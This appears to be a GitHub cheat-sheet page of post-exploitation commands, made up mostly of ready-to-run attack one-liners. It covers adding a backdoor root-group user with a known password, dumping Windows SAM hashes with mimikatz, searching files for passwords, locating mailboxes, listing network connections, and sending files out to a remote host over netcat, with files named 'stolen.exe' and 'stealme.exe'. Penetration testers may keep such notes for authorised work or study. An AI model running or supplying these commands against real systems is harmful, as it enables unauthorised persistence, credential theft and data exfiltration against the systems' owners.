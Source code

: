 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/5_effect.md">Top of Page</a> |
  <a href="/CheatSheets/5_effect.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Effect
* [One-liner: useradd and chpasswd](#one-liner-useradd-and-chpasswd)
* [Dump Passwords](#dump-passwords)
* [Find Password Files](#find-password-files)
* [Find Emailboxes](#find-emailboxes)
* [Get Network Connections](#get-network-connections)
* [Exfil via Netcat](#exfil-via-netcat)

## One-liner: useradd and chpasswd
```bash
useradd victor -g root -s /bin/bash && echo victor:1337 | chpasswd
useradd -p $(openssl passwd -crypt password) -s /bin/bash -g 0 victor
```

## Dump Passwords
```bash
mimikatz.exe "lsadump::sam"
```

## Find Password Files
```bash
findstr /si password *.xml *.ini *.txt (Find passwords)
```

## Find Emailboxes
```bash
dir *.dbx /s 
```

## Get Network Connections
```bash
# all connections, no name resolution, and print owning PID 
netstat -ano 

# print filepath of each network-connected binary
(Get-NetTcpConnection).OwningProcess | ForEach-Object { Get-Process -Id $_ | Select-Object -ExpandProperty Path } | Sort-Object | Get-Unique
```

## Exfil via Netcat
```bash
nc -nvlp 5050 > stolen.exe
nc.exe -w3 10.11.12.13 5050 < stealme.exe
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/5_effect.md">Top of Page</a> |
  <a href="/CheatSheets/5_effect.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
